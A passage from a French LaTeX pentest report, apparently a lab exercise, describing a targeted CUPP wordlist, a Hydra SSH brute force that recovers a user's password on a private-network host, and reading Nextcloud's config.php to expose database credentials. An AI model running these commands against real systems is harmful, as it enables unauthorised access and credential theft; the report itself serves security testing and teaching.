 \begin{lstlisting}[language=bash, caption={Génération d'un dictionnaire ciblé avec CUPP}]
cupp -i
# Saisie interactive : prenom, nom, mots-cles
# Resultat : 11 940 variantes generees
\end{lstlisting}

\subsubsection{Étape 2 --- Attaque par force brute ciblée (SSH)}
\label{sec:bruteforce}

Un premier essai avec la liste complète (11\,940 mots) s'est révélé
impraticable en raison du mécanisme de limitation de connexions
simultanées de Debian (environ 22 à 24 heures estimées au rythme
observé). La liste a donc été réduite aux variantes les plus probables
(préfixes \texttt{imane} et \texttt{arrach}), ramenant le test à
quelques dizaines de mots :

\begin{lstlisting}[language=bash, caption={Attaque par force brute avec Hydra}]
hydra -l nextcloud-user -P imane_fast.txt -t 1 -W 2 ssh://192.168.1.30
\end{lstlisting}

\textbf{Résultat} : le mot de passe \texttt{imanearrach} a été trouvé en
10 tentatives, en moins de 2 minutes.

\begin{figure}[h]
\centering
\caption{Succès de l'attaque par force brute ciblée contre le service SSH}
\label{fig:hydra-success}
\end{figure}

\subsubsection{Étape 3 --- Extraction des identifiants de base de données}

Une fois l'accès SSH obtenu, le fichier de configuration de Nextcloud a
été consulté. Comme pour la grande majorité des applications web, les
identifiants de connexion à la base de données y sont stockés en clair :

\begin{lstlisting}[language=bash, caption={Lecture du fichier de configuration}]
sudo cat /var/www/nextcloud/config/config.php
\end{lstlisting}

\begin{lstlisting}[language=PHP, caption={Extrait révélant le mot de passe en clair}]
'dbhost' => '192.168.1.20',
'dbuser' => 'nextcloud',
'dbpassword' => 'DB_PASSWORD_REDACTED',
\end{lstlisting}

